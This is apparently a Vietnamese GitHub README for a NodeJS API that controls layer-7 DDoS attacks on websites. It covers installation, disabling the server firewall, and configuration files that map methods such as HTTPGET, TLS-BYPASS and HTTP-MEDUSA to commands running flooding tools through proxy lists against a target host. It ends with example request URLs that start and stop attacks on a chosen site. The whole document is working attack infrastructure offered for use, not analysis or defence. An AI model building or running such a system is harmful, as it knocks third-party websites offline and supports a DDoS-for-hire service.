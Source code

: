 <h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h2>Cài đặt:</h2>

<h3>cài đặt nodejs</h3>

***ubuntu*** 
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash
source ~/.bashrc
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

***centos***
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

<h3>cài đặt nginx</h3>

<h3>tắt tường lửa</h3>

***centos***
```sh
sudo service iptables stop
sudo chkconfig iptables off
sudo systemctl stop firewalld
sudo systemctl disable firewalld
```

<h2>Setup:</h2>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "TLS-BYPASS": "screen -dmS attack_${attack_id} node TLS-BYPASS ${host} ${time} 30 proxies.txt 30",
    "HTTP-MEDUSA": "screen -dmS attack_${attack_id} ./HTTP-MEDUSA ${host} ${time} 30 30",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; // Cổng API
const socket_token = "SOCKET_TOKEN"; // Mã thông báo TCP Socket, sử dụng số/chữ cái ngẫu nhiên
const api_key = "API_KEY"; // Khóa API của bạn
const domain_lock = false; // khóa api để chỉ được sử dụng từ một tên miền cụ thể
const api_domain = 'example.com'; // miền API của bạn (nếu domain_lock được đặt thành true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 8888;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

#### Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API

```cd /usr/share/nginx/html```

```js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/api.js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/commands.json
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/servers.json
```
```js
wget https://raw.githubusercontent.com/DauDau432/Api_L7/main/socket.js
```

<h3> Khởi động</h3>

```js
screen -S api -dm node api.js
```
```js
screen -S socket -dm node socket.js
```

<h3> Proxy đảo ngược</h3>

***Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:***

```nano /etc/nginx/nginx_conf```
```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:8888/api/attack;
    }
}
```

***Thay thế*** `'http://backend:8888/api/attack'` ***bằng IP máy chủ API của bạn***

<h2> Sử dụng API</h2>

***Gửi yêu cầu tới API bằng các trường bắt buộc***

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=HTTPGET&server=1`

***Bạn có thể dừng các cuộc tấn công bằng cách gửi yêu cầu tới API sử dụng*** `&method=stop`

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=stop&server=1`
